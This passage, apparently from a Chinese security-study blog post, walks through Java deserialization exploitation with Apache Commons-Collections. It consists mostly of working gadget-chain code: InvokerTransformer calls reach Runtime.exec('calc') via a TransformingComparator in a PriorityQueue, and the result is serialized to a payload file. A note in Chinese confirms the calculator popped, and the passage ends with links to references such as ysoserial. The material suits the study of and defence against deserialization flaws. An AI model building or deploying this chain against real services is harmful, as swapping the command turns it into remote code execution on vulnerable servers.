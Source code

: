 ```java
                        Runtime.class
                ),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",null}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                ));
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer, null);
        PriorityQueue priorityQueue = new PriorityQueue();

        Field comparatorField = PriorityQueue.class.getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue,null);
        priorityQueue.add("1");
        priorityQueue.add("2");

        comparatorField.set(priorityQueue,transformingComparator);
        serialize(priorityQueue);

    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }

    public static void unserialize(String filePath) throws Exception{
        ObjectInputStream ins = new ObjectInputStream(new FileInputStream(filePath));
        ins.readObject();
    }
}
```

成功弹出计算器：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640156317434-4cee788e-5b80-4e05-90ab-5deb7417c220.png)

# 参考文章

- [Java反序列化CommonsCollections篇(四)-摆烂的完结篇](https://www.bilibili.com/video/BV1NQ4y1q7EU?spm_id_from=333.999.0.0)
- [ysoserial](https://github.com/frohoff/ysoserial)

- [Commons-Collections 1-7 利用链分析](http://wjlshare.com/archives/1535)